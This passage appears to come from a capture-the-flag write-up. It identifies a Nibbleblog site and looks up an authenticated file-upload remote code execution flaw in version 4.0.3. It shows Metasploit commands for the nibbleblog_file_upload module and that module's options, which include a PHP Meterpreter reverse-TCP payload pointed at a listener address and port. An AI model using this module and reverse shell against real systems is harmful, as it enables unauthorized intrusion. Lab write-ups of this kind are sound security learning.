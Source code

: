 This website is using HTML, PHP and JQuery.
Also, upon further google searches, `nibbleblog` turns out to be an actual thing.
It's a blog making platform using PHP and instead of using a traditional database it saves data as files.

Now, if we search up for `nibbleblog exploit` this [page](https://www.rapid7.com/db/modules/exploit/multi/http/nibbleblog_file_upload/) is one of them that strikes and is a critical finding!
There's a **Nibbleblog File Upload Vulnerability** which allows an *authenticated* user to remotely execute arbitrary PHP codes. It was tested for version 4.0.3.

It also mentions a metasploit module to use:
```
msf > use exploit/multi/http/nibbleblog_file_upload msf exploit(nibbleblog_file_upload) > show targets ...targets... msf exploit(nibbleblog_file_upload) > set TARGET < target-id > msf exploit(nibbleblog_file_upload) > show options ...show and set options... msf exploit(nibbleblog_file_upload) > exploit
```
Noted!

We just yet don't know whether the version of nibbleblog being used is 4.0.3 or not. So, let's try to figure that out.
Seeing what options are required:
```
msf6 exploit(multi/http/nibbleblog_file_upload) > show options

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the web application
   USERNAME                    yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.10.37    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3

```
